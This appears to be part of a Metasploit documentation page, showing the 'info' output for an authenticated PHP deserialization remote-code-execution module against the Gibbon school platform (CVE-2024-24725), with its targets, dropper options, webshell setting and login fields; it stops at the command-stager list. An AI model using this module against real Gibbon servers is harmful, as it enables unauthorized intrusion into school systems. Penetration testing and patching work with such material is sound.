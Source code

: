 ## Scenarios
```msf
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > info

       Name: Gibbon School Platform Authenticated PHP Deserialization Vulnerability
     Module: exploit/multi/http/gibbon_auth_rce_cve_2024_24725
   Platform: PHP, Unix, Linux, Windows
       Arch: php, cmd, x64, x86
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-03-18

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  SecondX.io Research Team(Ali Maharramli,Fikrat Guliev,Islam Rzayev)

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper
      3   Windows Command
      4   Windows Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting        Required  Description
  ----       ---------------        --------  -----------
  PASSWORD                          yes       Password
  Proxies                           no        A proxy chain of format type:host:port[,type:host:port][
                                              ...]
  RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs
                                              /using-metasploit/basics/using-metasploit.html
  RPORT      443                    yes       The target port (TCP)
  SSL        true                   no        Negotiate SSL/TLS for outgoing connections
  SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                      yes       The Gibbon online school platform endpoint URL
  URIPATH                           no        The URI to use for this exploit (default is random)
  USERNAME                          yes       Gibbon username to login, typically an e-mail address
  VHOST                             no        HTTP server virtual host
  WEBSHELL                          no        Set webshell name without extension. Name will be randomly generated if left unset.


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
```